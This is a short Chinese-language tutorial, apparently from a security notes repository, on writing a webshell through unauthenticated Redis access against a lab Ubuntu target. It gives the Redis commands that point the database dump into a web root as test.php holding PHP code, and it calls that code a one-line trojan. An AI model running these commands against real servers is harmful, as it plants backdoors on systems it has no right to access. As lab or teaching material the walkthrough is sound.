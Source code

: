 # redis未授权写shell

## 利用条件

已知服务路径

## 环境

靶机：ubuntu 16.02

## 安装小皮面板充当服务器

https://www.xp.cn/linux.html#install-show

## 小皮面板后台管理设置

![image-20210702104824334](.\images\image16.png)

## 漏洞利用过程

```
config get dir
# 设置备份路径为服务器根目录
config set dir /www/admin/test_80/wwwroot

config get dbfilename
# 备份文件名称为随上传的一句话木马改变而改变
set dbfilename test.php
set x "<?php phpinfo();?>
```

![image-20210702104116870](.\images\image14.png)

![image-20210702104631109](.\images\image15.png)